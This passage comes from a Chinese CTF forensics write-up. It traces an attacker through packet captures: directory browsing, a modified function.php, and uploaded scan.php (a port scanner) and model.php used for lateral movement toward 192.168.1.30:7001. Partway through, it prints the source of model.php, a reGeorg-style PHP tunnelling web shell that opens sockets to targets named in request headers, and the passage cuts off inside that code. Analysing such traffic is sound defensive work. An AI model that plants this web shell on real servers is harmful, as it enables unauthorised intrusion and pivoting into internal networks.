  2号包分析完，在3号包中继续分析黑客攻击行为。

  黑客查看了/var/www/html/Vwins/addons/目录以及其子目录emulator、system和vip，还修改了system/function.php文件（但是只是修改了post的参数名，这个php我也没读懂是干嘛的）。

  随后黑客在emulator目录下上传了两个文件model.php和scan.php。将木马文件上传请求中的z1参数解码就得到扫描文件的绝对路径`/var/www/html/Vwins/addons/emulator/scan.php`

![](https://blog-zijui.oss-cn-shenzhen.aliyuncs.com/images/t3sec2018-data-writeup/4.png)

  来看一下scan.php，发现是一个端口扫描程序，这意味着黑客的攻击进入了第二阶段，开始横向移动。

### 0x06 黑客进入攻击目标2，所在的当前目录

  题目跳的有点快。。。还是先来看看黑客怎么拿到目标2的。

  前面的包里有端口扫描结果，扫出来有用的只有192.168.1.30:7001，再来看看之前上传的model.php

```php
<?php
ini_set("allow_url_fopen", true);
ini_set("allow_url_include", true);

if( !function_exists('apache_request_headers') ) {
    function apache_request_headers() {
        $arh = array();
        $rx_http = '/\AHTTP_/';

        foreach($_SERVER as $key => $val) {
            if( preg_match($rx_http, $key) ) {
                $arh_key = preg_replace($rx_http, '', $key);
                $rx_matches = array();
                $rx_matches = explode('_', $arh_key);
                if( count($rx_matches) > 0 and strlen($arh_key) > 2 ) {
                    foreach($rx_matches as $ak_key => $ak_val) {
                        $rx_matches[$ak_key] = ucfirst($ak_val);
                    }

                    $arh_key = implode('-', $rx_matches);
                }
                $arh[$arh_key] = $val;
            }
        }
        return( $arh );
    }
}
if ($_SERVER['REQUEST_METHOD'] === 'GET')
{
    exit("Georg says, 'All seems fine'");
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    set_time_limit(0);
    $headers=apache_request_headers();
    $cmd = $headers["X-CMD"];
    switch($cmd){
        case "CONNECT":
            {
                $target = $headers["X-TARGET"];
                $port = (int)$headers["X-PORT"];
                $sock = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
                if ($sock === false) 
                {	
                    header('X-STATUS: FAIL');
                    header('X-ERROR: Failed creating socket');
                    return;
```
